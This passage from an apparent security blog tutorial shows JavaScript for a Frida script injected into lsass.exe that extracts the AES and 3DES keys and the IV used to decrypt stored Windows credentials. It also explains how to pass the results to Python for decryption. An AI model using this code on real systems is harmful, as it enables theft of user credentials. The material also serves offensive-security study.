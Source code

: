 Parsing the actual keys is very simple, thankfully. The AES and 3DES keys are parsed in the exact same way, and the IV literally just needs to be read from a pointer:

```javascript
function getKey(ptr) {
	// Given a pointer to the lsasrv!hAesKey or lsasrv!h3DesKey variable, extract the actual AES/3DES key.
	// Returns a ByteArray containing the key.
	
	// First, resolve the pointer to get the BCRYPT_HANDLE_KEY struct it references.
	var bcryptHandleKey = ptr.readPointer();
	// Next, locate the pointer to BCRYPT_KEY located at offset 0x10.
	var bcryptKey = bcryptHandleKey.add(0x10).readPointer();
	// Within BCRYPT_KEY, the HARD_KEY field is located at 0x38.
	var hardKey = bcryptKey.add(0x38);
	// The first entry in HARD_KEY is a ULONG containing the key length.
	var len = hardKey.readULong();
	// The second entry (at offset 0x4) is the actual key.
	var keyBuffer = hardKey.add(0x4);
	var key = keyBuffer.readByteArray(len);
	return key;
}

function getAesIV(ptr) {
	// Given a pointer to the AES IV variable, extract the actual AES key.
	// Returns a ByteArray containing the IV.
	return ptr.readByteArray(16);
}
```

Finally, we have everything we need - the user details, their encrypted credentials, and all of the decryption keys and associated IVs required to translate them into plaintext.

## Beyond JavaScript

At this point, we are finished with our Frida script (which you can find [here](https://github.com/ofasgard/mimiscan/blob/blog/MimiScan.js)). When we inject it into *lsass.exe*, it returns something that looks a bit like this:

![a screenshot of the raw output from MimiScan.py](/img/mimiscan.png)

I think we can all agree that this is a little underwhelming. Sure, all the raw data is there - and we could manually grab those cryptoblobs and decryption keys and perform the decryption itself, of course. But we'd generally prefer all that stuff to be done for us - what we want is decrypted credentials scrolling across our screen. Implementing that decryption logic in Frida's JavaScript engine would be no fun at all, though; doing it in Python is much preferable.

For this, we can use Frida's Python bindings. The way it works is simple: instead of injecting our Frida script into a process using the Frida CLI tool, we inject it using the *frida* Python library. The injected script is able to communicate back to the Python orchestrator with the *send()* function, which allows us to receive output such as credentials and decryption keys. We can then process it in Python instead of being stuck with JavaScript.
